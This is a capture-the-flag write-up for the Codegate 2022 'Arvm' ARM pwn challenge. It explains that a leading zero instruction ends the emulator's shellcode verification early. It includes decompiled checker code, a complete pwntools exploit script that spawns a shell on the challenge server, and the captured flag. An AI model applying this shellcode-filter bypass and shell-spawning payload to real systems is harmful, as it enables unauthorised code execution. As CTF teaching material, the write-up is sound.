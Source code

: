 # Arvm

**Author**: [Nspace](https://twitter.com/_MatteoRizzo)

**Tags:** pwn

**Points:** 793 (25 solves)

**Description:** 

> Welcome! Here is my Emulator. It can use only human.
> 
> Always SMiLEY :)

This challenge is an ARM binary running in `qemu-user`. The challenge asks us to input up to 4k of ARM machine code, then gives us a choice between running the code, printing it, or replacing it with new code.

```
Running Emulator...
Welcome Emulator
Insert Your Code :>

[...]

1. Run Code
2. View Code
3. Edit Code
:>
```

When we choose to run the code the binary asks us to solve a simple captcha, where we only have to read a number from the challenge and send it back.

```
Before run, it has some captcha
Secret code : 0xf40117a4
Code? :> $ 0xf40117a4
```

After we pass the captcha, the binary verifies our shellcode (`run()`):

```c
struct vm *vm;

void invalid_insn(uint32_t insn)
{
  printf("Instruction 0x%x is invalid\n", insn);
  exit(-1);
}

int run(void)
{
  unsigned int v0;
  uint32_t next_insn;

  for (uint32_t insn = -1; vm->registers[15] < vm->code + 4096; insn = next_insn) {
    if (vm->registers[15] < vm->code) {
      break;
    }

    next_insn = *(uint32_t *)vm->registers[15];
    vm->registers[15] += 4;

    if (insn == 0) {
      break;
    }
    if (insn != -1 && !sub_11314(insn)) {
      invalid_insn(insn);
    }

    v0 = sub_1124C(insn);
    if (v0 <= 4) {
      switch (v0) {
        case 0u:
          if ( sub_117B8(insn) == -1 )
            invalid_insn(insn);
          continue;
        case 1u:
          if ( sub_11D98(insn) == -1 )
            invalid_insn(insn);
          continue;
        case 2u:
          if ( sub_11F28(insn) == -1 )
            invalid_insn(insn);
          next_insn = -1;
          continue;
        case 3u:
          if ( sub_126EC() == -1 )
            invalid_insn(insn);
          continue;
        case 4u:
          if ( sub_12000(insn) == -1 )
            invalid_insn(insn);
          continue;
        default:
            invalid_insn(insn);
          continue;
      }
    }
    if ( v0 != -1 ) {
      invalid_insn(insn);
    }
  }
  return 0;
}
```

If the verification succeeds, the binary runs our shellcode.

The `run` function is presumably trying to prevent our shellcode from doing something fishy like launching a shell. However I don't know for sure becauase I didn't actually reverse the checks.

Instead I noticed that the verification succeeds immediately when it encounters an instruction that encodes to 0. 0 is a valid ARM instruction that is essentially a nop (`andeq r0, r0, r0`). This means that we can easily bypass all the checks by prefixing our shellcode with this instruction.

Here is the final exploit script:

```py
from pwn import *

e = ELF('app')

context.binary = e

shellcode = asm('\n'.join([
    'andeq r0, r0, r0',
    shellcraft.sh(),
]))

if args.REMOTE:
    r = remote('15.165.92.159', 1234)
else:
    r = process('./run.sh')

r.sendafter(b'Insert Your Code :> ', shellcode)
r.sendlineafter(b':> ', b'1')
r.recvuntil(b'Secret code : 0x')
captcha = int(r.recvline().strip().decode(), base=16)
r.sendline(hex(captcha).encode())

r.sendline(b'cat flag*')
r.stream()
```

```
$ python3 exploit.py REMOTE
codegate2022{79d1bafd64f2e49a5bc60e001d179c23ce05f43a5145ea1ff673a51fbe81d8baf846e3adab31d65792838d73b06047822fb419ebc522}
```